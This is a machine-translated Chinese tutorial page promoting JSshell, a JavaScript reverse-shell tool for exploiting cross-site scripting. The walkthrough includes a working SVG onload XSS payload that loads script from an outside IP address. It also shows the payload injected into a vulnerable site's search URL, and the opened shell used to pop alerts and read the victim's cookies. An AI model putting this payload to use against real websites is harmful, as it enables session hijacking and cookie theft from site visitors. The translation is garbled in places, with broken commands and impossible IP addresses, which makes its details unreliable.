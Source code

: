 # JSshell——一个 JavaScript 反向 shell，用于远程利用 XSS 或寻找盲人 XSS

> 原文：<https://kalilinuxtutorials.com/jsshell/>

[![JSshell – A JavaScript Reverse Shell For Exploiting XSS Remotely Or Finding Blind XSS](img//3b45e0255bd67e150d58b4f4094e007a.png "JSshell – A JavaScript Reverse Shell For Exploiting XSS Remotely Or Finding Blind XSS")](https://1.bp.blogspot.com/-wL4S5kkBwGE/XuE_8RyG41I/AAAAAAAAGmA/wk4_2nJg8FgWl1wlPnS8EnXxkJSz52eyACLcBGAsYHQ/s1600/JSshell%25281%2529.png)

**JSshell** 是一个 JavaScript 反向 shell。这用于远程利用 XSS，帮助找到盲人 XSS。

该工具适用于 Unix 和 Windows 操作系统，可以在 Python 2 和 Python 3 上运行。这是 JShell 的一个重大更新——一个通过 s0med3v 用 XSS 获得 JavaScript shell 的工具。JSshell 也不需要 Netcat(不同于其他 javascript shells)。

**用途**

*   生成 JS 反向 shell 负载:-g
*   设置监听和生成有效负载的本地端口号(默认情况下，将设置为 4848): -p
*   设置用于生成有效负载的本地源地址(JSshell 将默认检测您的 IP 地址):-s
*   为 shell 连接设置超时(如果用户退出页面，shell 将暂停，如果您设置了超时，过一会儿没有响应，shell 将自动关闭):-w

得到 shell 后执行一个命令:-c

**示例用法:**

js . py
js . py-g
js . py-p 1234
js . py-s 48 . 586 . 1 . 23-g
js . py-c " alert(document . cookie)"-w 10

运行 JSshell 的示例:

这是一个使用 JSshell 逐步利用远程 XSS 的示例。

首先，我们将生成一个反向 JS shell 有效负载，并将 shell 超时设置为 20 秒:

~ # whoami
root
~ # ls
readme . MD js . py
~ # python 3 js . py-g-w 20
Payload:<SVG/onload = setInterval(function(){ with(document)body . appendchild(createElement(" script "))。src = "//171 . 224 . 181 . 106:4848 "}，999) >

监听[any] 4848 上的传入 JS shell …

现在将此有效负载粘贴到易受 XSS 攻击的网站(或 URL ):

[https://vulnwebs1te.com/b/search?q=](https://vulnwebs1te.com/b/search?q=)<SVG/onload = setInterval(function(){ with(document)body . appendchild(createElement(" script "))。src = "//171 . 224 . 181 . 106:4848 "}，1248) >

访问该页面，现在我们将看到我们得到了反向 JS shell:

有效载荷:

监听【any】4848 上传入的 JS shell……
从【75.433.24.128】端口 39154 获取 JS shell 到桌面-1 gsl2o 2 4848
$ established
$ the
$ shell
$
$
$ help
JS shell 使用 javascript 代码作为 shell 命令。还支持一些命令:
帮助此帮助
退出，quit 退出 JS shell

现在让我们执行一些命令:

$ var test = ' hacked '
$ alert(hacked)
$

浏览器收到了警告:黑客入侵

$ prompt(document.cookie)
$

并且浏览器打印用户 cookie:j session = 3 BDA 8…

$ exit
~ # whoami
root
~ # pwd
/home/sheld3v
~ #

我们放弃了！

**信用**

这是 shelld3v 用秘密账号在 HackOne 和 Bugcrowd 上黑出来的！这个工具的灵感来自于 JShell (s0med3v)，使用了 BruteLogic 有效载荷。JSshell 2.0 将有一些新特性，包括:

*   更多有效载荷用于、
*   一些快捷命令:打印当前会话、域、端点等
*   更好的 GUI

[**Download**](https://github.com/shelld3v/JSshell)